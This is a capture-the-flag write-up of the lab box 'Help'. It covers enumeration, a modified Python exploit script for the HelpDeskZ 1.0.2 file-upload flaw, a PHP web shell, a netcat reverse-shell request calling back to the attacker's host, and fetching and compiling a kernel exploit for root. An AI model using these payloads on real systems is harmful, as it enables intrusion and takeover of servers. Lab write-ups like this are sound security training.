

## Overview
Help is an Ubuntu box running helpdesk software that was vulnerable to an unauthenticated arbitrary file upload. After getting some additional information from the application's github repo and tweaking the exploit I was able to get initial foothold as user 'help'. After running the linux-exploit-suggester-2 tool I was able to upload and compile a kernel exploit on the target to obtain a shell as root.

## Enumeration

**Software**

* Ubuntu 16.04.5 LTS
* Apache 2.4.18
* Node.js Express Framework
* Helpdeskz 1.0.2

**NMAP Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.121 -oN /mnt/data/boxes/help/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp - http
* 3000/tcp - http

**Gobuster**
```
gobuster dir -u http://10.10.10.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 35
```

* /support
* /index.html
* /javascript

## Steps (user)

I started off by browsing to http://10.10.10.121 which showed the Apache2 Ubuntu Default Page. Moving on to the gobuster results, I browsed to http://10.10.10.121/support which showed a [Helpdeskz](https://www.helpdeskz.com/) page.


I ran a search against searchsploit for "helpdeskz" and there were two results. 


Since 41200 required authentication and I had yet to find any credentials, I went with 40300.

https://www.exploit-db.com/exploits/40300

The script works by getting current time from the webserver and generating filenames by taking the filename + current time and hashing it with md5 to creat the final filename. The script then checks to see if that file exists on the webserver. If response 200 is returned the url is printed to the screen and the script is stopped. I had to make a few tweaks to get it to work.

```python
import hashlib
import time
import sys
import requests
import datetime

print('Helpdeskz v1.0.2 - Unauthenticated shell upload exploit')

if len(sys.argv) < 3:
    print("Usage {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0]))
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]


r = requests.get(helpdeskzBaseUrl)

#Gets the current time of the server to prevent timezone errors - DoctorEww
currentTime = int((datetime.datetime.strptime(r.headers['date'], '%a, %d %b %Y %H:%M:%S %Z') - datetime.datetime(1970,1,1)).total_seconds())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext.encode('utf-8')).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'

    print("[*] Trying time offset: " + str(x))

    response = requests.head(url)

    if response.status_code == 200:
        print("[!] Found! => " + url)
        sys.exit(0)

print("[*] Sorry, I did not find anything")

```

The URL mentioned in the comments of the exploit was different than the URL on the target so I wanted to confirm the correct path before continuing. I did an internet search for helpdeskz application and found its github repo https://github.com/evolutionscript/HelpDeskZ-1.0

I found UPGRADING.txt which allowed me to pull that file up on the target box and confirm it was version 1.0.2.


I then reviewed the controllers/submit_ticket_controller.php file that was mentioned in the notes and found the section dealing with uploads

```
"UPLOAD_DIR".'tickets/'
```


I continued to look around and found that the includes/global.php defined the UPLOAD_DIR variable:

```
define('UPLOAD_DIR', ROOTPATH . 'uploads/');
```


Putting everything together the full path is **http://10.10.10.121/uploads/tickets**

Having everything I needed to run the script I created a basic web shell and saved it to cmd.php
```
echo '<?php echo shell_exec($_GET["cmd"]); ?>' cmd.php
```
I clicked "Submit a Ticket", filled out the required field, attached the cmd.php and clicked submit.


I ran the script providing the url and cmd.php as parameters. The script was able to determine the name of the file as **993824593a0e0385f451288588801156.php**

```
python3 ./40300.py http://10.10.10.121/support/uploads/tickets/ cmd.php
```


I browsed to http://10.10.10.121/uploads/tickets/993824593a0e0385f451288588801156.php and added ?cmd=lsb_release -a to confirm I was able to run commands and see the output.

```
http://10.10.10.121/support/uploads/tickets/993824593a0e0385f451288588801156.php?cmd=lsb_release%20-a
```


I opened burp and sent the request to repeater so I could modify the request. I modified the request and url encoded it, and after setting up a netcat listner (nc -lvnp 4200), I hit send.

```
GET /support/uploads/tickets/993824593a0e0385f451288588801156.php?cmd=rm+/tmp/z%3bmkfifo+/tmp/z%3bcat+/tmp/z|/bin/sh+-i+2>%261|nc+10.10.14.24+4200+>/tmp/z+HTTP/1.1
```


## Steps (root/system)

I didn't find much enumerating help's home folder, there was a password in the .bash_history file but it didn't appear to be used anywhere on the box. LinEnum didn't turn up anything out of the ordinary. I downloaded [linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2) and it showed a few kernel exploits for version 4.4.0.



I ran searchsploit -m to make a copy of the exploit from searchsploit

```
searchsploit -m 45010
```

I started up a python http server on my box and copied the exploit to the target box

```
python3 -m http.server 80
```

```
wget http://10.10.14.24/45010.c
```

GCC was installed so I was able to compile it right on the target
```
gcc 45010.c -o 45010
```

After running it I received a root shell


